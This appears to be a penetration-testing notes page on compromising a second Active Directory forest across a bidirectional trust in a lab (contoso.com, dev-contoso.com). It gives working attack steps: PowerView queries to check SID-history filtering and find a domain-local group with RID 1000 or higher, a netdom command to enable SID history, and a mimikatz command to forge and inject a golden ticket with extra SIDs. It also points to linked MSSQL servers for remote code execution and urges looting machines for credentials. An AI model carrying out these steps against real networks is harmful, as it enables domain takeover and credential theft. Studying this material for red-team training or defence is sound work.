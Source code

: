 **INTER-FOREST EXPLOTATION CONCEPT EXPLANATION:**

The inter-forest explotation is when you attempt to compromise an additinal forest. For example, let's say we are in the contoso.com forest, however we know about the existance of an other forest, named dev-contoso.com(obiously we want to comprimse this addtional forest). Between forests, the concept of trust also exist, and in our lab we will have a bidirecctional trust between the contoso.com forest and the dev-contoso.com forest. 

**OWNING AN ADDITIONAL FOREST WITH GOLDEN TICKETS:**

With a bidirecctional trust set, we must do the following:
Craft a golden ticket for another forest(dev-contoso.com) with an RID superior of 1000(we must find an existing group in our target forest that has an RID equal or superior than 1000) and with SID history correctly configured(SID history enabled), if our RID is less than 1000 our SID will get filtered regardless of the SID history settings:

```
To check if sidhistory is enabled:
PS C:\> Get-DomainTrust -Domain corp2.com
SourceName : corp2.com
TargetName : corp1.com
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE   -> if "TREAT_AS_EXTERNAL" appears then sidhistory is enabled, if doesn't appear it is disabled
TrustDirection : Bidirectional
WhenCreated : 4/2/2020 7:05:54 PM
WhenChanged : 4/18/2020 2:22:10 PM

To enable sidhistory in case it was disabled
C:\> netdom trust corp2.com /d:corp1.com /enablesidhistory:yes

C:\> netdom trust <target_domain> /d:<source_domain> /enablesidhistory:yes

Searching for an external domain group with an RID superior of 1000:

PS C:\> Get-DomainForeignGroupMember -Domain corp2.com  -> this will return us with external groups that our user forms part of

PS C:\> Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com  -> this will return us with groups/users that form part of the built-in Administartors group

Another important thing to keep in mind when looking for our target group, is that our target group must be in the "domain local security group".
For example, Domain Admins or Enterprise Admins form part of "global security group"(not "domain local security group"), meaning that if we try to impersonate, we will get filtered regardless of our RID and the sidhistory. 

To create the golden ticket:
mimikatz # kerberos::golden /user:h4x /domain:<origin_domain_name> /sid:<origin_domain_sid> /krbtgt:<origin_domain_krbtgt_ntlm_hash> /sids:<group_with_RID_equal_or_superior_than_1000_sid> /ptt
```

**LINKED MSSQL SERVERS:**

We will first list the linked SQL servers, specified in the "MSSQL Advanced Attacks.md" document, and then we will follow the techinque explained there to get remote code execution of our linked SQL server.


**OTHER POTENTIAL WAYS TO COMPROMISE AN ADDITIONAL FOREST:**

Despite the 2 techinques described here, you can attempt to compromise the additional forest without performing any Active Directory attack. For example you can search for a vulnerable/misconfigured exposed service that you can use as a foothold to that additional forest. So it can vary a lot depending on the scenario.

You can also search for configuration scripts for additional domain credentials, for this rease is very IMPORTANT TO LOOT AT DEEPTH ALL THE MACHINES YOU CAN.
